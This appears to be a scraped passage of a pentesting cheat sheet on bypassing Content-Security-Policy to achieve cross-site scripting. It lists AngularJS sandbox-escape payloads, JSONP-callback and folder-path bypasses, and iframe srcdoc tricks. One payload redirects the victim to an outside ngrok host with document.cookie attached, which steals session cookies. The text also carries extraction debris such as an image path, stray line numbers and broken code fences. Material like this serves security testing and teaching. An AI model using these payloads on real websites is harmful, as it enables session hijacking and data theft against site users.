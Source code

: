 ```
Load a vulnerable version of angular and execute arbitrary JS:



```
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
Other payloads:


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
  
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
 </div>
  
"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
 
"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
```
  
Third Party Endpoints + JSONP
Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none';
Scenarios like this where script-src is set to self and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:

1
2
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
JSONBee contains a ready to use JSONP endpoints to CSP bypass of different websites.

The same vulnerability will occur if the trusted endpoint contains an Open Redirect, because if the initial endpoint is trusted, redirects are trusted.

Folder path bypass
If CSP policy points to a folder and you use %2f to encode “/”, it is still considered to be inside the folder. All browsers seem to agree on that.
This leads to a possible bypass, by using “%2f..%2f” if server decodes it. For example, if CSP allows http://example.com/company/ you can bypass the folder restriction and execute: http://example.com/company%2f..%2fattacker/file.js

Online Example: https://jsbin.com/werevijewa/edit?html,output

Iframes JS execution
1
Content-Security-Policy: default-src 'self'; connect-src 'self'; script-src 'self';
Working payloads:

1
2
3
4
5
6
7
#This one requires the data: scheme to be allowed
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
#This one injects JS in a jsonp endppoint
```